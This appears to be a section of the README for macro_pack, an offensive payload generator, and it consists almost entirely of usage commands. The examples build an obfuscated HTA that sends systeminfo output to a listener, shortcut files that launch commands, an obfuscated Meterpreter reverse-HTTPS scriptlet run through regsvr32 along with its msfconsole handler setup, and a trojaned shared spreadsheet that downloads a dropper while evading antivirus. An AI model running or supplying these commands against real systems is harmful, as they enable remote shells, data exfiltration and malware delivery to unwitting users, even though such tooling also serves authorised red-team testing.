 - Generates obfuscated HTA file which executes "systeminfo" and returns result to another macro_pack listening on 192.168.0.5
```batch
# 1 Generate HTA file with CMD template
echo http://192.168.0.5:1234/a "systeminfo" | macro_pack.exe -t CMD -o -G info.hta
# 2 On 192.168.0.5 open macro_pack as http listener
macro_pack.exe -l . --port=1234
# 3 run hta file with mshta
mshta.exe full/path/to/info.hta
```


- Generate url shortcut which executes a local hta file when you click on it
```batch
 echo "file://C:\Users\username\Desktop\hello.hta" | macro_pack.exe -G yop.url
```


- Generate lnk shortcut which executes a cmd running calc.exe with calc.exe icon
```batch
 echo '"c:\Windows\System32\cmd.exe /c calc.exe" "calc.exe"' | macro_pack.exe -G calc.lnk
```


 - Generate obfuscated Meterpreter reverse https TCP SCT file and run it  
 ```batch
# 1 Generate obfuscated VBS scriptlet based on meterpreter reverse HTTPS template
echo <ip> <port> | macro_pack.exe -t WEBMETER -o -G meter.sct
# 2 On attacker machinge Setup meterpreter listener
Open msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https

set LHOST <attacker_ip> # NOTE this cannot be 0.0.0.0 for reverse https
set LPORT <port>
set AutoRunScript post/windows/manage/migrate
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
set EnableStageEncoding true
exploit -j
# 3 run scriptlet with regsvr32 
regsvr32 /u /n /s /i:meter.sct scrobj.dll


 ```



### macro\_pack pro

- Trojan the existing shared "report.xlsm" file with a dropper. Use anti-AV and anti-debug features.
```bash
echo "http://10.5.5.12/drop.exe" "dropped.exe" | macro_pack.exe -o -t DROPPER2 --trojan --av-bypass --stealth  -G "E:\accounting\report.xls"   
```
